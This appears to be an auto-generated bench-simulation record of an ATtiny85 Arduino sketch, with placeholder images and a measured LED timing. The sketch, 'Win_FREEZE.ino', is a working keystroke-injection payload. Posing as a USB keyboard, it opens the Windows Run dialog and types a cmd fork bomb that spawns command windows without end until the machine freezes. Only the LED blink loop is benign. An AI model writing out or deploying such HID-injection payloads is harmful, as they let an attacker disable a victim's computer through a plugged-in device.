
Bench run of a sketch on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking.

Above: at 2.8 s.
Timing chart, 0 to 6.0 s (numbered marks = the images above):


The sketch:

Win_FREEZE.ino
```cpp
#define KEY_BACKSPACE 42
#include "DigiKeyboard.h"
void setup() {
  pinMode(1, OUTPUT); //RED LED
  pinMode(2, OUTPUT); //BLUE LED
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(F("cmd /C \"color a & FOR /L %N IN () DO start cmd\""));
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {
  DigiKeyboard.delay(500);
  digitalWrite(2, HIGH);
  DigiKeyboard.delay(1000);
  digitalWrite(2, LOW);
}
```

Measured:
- by itself, PB2 (BLUE_LED): alternates HIGH for 1.0 s and LOW for 0.50 s
